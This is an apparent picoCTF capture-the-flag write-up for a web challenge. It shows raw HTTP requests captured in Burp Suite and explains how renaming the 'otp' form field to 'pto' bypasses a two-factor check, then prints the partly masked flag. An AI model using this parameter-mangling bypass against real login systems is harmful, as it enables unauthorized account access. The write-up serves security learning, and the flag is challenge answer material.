

## Challenge 🧩

Try here to find the flag

Author: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA</br>
Points: 100

Hints:

1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Solution 🕵️‍♂️

Using Burp to intercept the traffic.
After filling registration details, we are welcomed by 2FA page in 2FA page have to provide a otp to view dashboard
Trying otp `123`

```text
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:XXXXX
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:XXXXX
Content-Type: application/x-www-form-urlencoded
Referer: http://titan.picoctf.net:XXXXX/dashboard
...

otp=123
```

We will get Invalid OTP.

Pass the request to repeater and send the malformed request by changing `otp` to `pto`

```text
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:XXXXX
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:XXXXX
Content-Type: application/x-www-form-urlencoded
Referer: http://titan.picoctf.net:XXXXX/dashboard
...

pto=123
```



## Flag 🚩

`picoCTF{#0TP_Bypvss_SuCc3$S_xxxxxxxx}`
